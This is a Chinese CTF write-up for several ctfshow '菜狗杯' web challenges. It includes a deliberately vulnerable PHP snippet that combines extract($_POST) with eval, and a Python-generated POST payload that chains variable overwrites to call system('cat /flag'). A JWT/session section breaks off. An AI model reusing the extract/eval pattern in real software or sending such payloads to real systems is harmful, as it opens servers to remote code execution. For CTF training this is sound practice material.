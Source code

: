 # 菜狗杯

[TOC]

---

### web签到



### web2 c0me_t0_s1gn

1. Ctrl+u -->ctfshow{We1c0me_

2. 在console控制台输入函数，t0_jo1n_u3_!}

ctfshow{We1c0me_t0_jo1n_u3_!}



### 我的眼里只有$

```php
error_reporting(0);
extract($_POST);
eval($$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$_);
highlight_file(__FILE__);
```

变量覆盖，写一个叫脚本，用xi当覆盖变量

```python
res = ""
for i in range(35):
    res+="x"+str(i)+"="+"x"+str(i+1)+"&"
print(res)
res1 = res + "x35=system('cat /flag');"
print(res1)

```

就是要利用这个`extract`函数

```
_=x1&x1=x2&x2=x3&x3=x4&x4=x5&x5=x6&x6=x7&x7=x8&x8=x9&x9=x10&x10=x11&x11=x12&x12=x13&x13=x14&x14=x15&x15=x16&x16=x17&x17=x18&x18=x19&x19=x20&x20=x21&x21=x22&x22=x23&x23=x24&x24=x25&x25=x26&x26=x27&x27=x28&x28=x29&x29=x30&x30=x31&x31=x32&x32=x33&x33=x34&x34=x35&x35=system("cat /f1agaaa");
```



### 抽老婆

> 文件下载+session
>
> 遇到session主要想的是怎么找到密钥，然后修改seesion获得权限

我们发现jwt，需要得到密钥
